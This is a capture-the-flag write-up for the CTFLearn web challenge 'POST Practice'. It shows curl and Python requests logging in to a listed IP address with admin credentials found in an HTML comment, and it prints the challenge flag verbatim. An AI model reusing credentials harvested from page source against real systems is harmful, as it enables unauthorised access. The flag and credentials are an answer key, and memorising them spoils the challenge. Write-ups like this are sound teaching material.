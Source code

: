 # POST Practice
## tags: CTFLearn Web Intelagent

#### 40 points Medium
### Description
This website requires authentication, via POST. However, it seems as if someone has defaced our site. Maybe there is still some way to authenticate? http://165.227.106.113/post.php

we can use cUrl to send HTTP POST request to the site. 
```
$ curl http://165.227.106.113/post.php
<h1>This site takes POST data that you have not submitted!</h1><!-- username: admin | password: 71urlkufpsdnlkadsf -->
```

It seems we need username and password data to get the flag. Use -d to include the data of username and password into the body of HTTP request

```
$ curl "http://165.227.106.113/post.php" -d "username=admin&password=71urlkufpsdnlkadsf"
<h1>flag{p0st_d4t4_4ll_d4y}</h1>
```

Or

We can also use Python to send HTTP request by importing request.
First, make it sure request is install
```
$ python -m pip install requests
```

Python script
``` python
#!/usr/bin/python3

import requests

url = "http://165.227.106.113/post.php"

# Data to be sent in the request body (if it's a POST request)
data = {
        'username': 'admin', 
        'password': '71urlkufpsdnlkadsf'
}

# Making a POST request with headers
response = requests.post(url, data=data)

print(response.text)
```
**FLAG:** flag{p0st_d4t4_4ll_d4y}
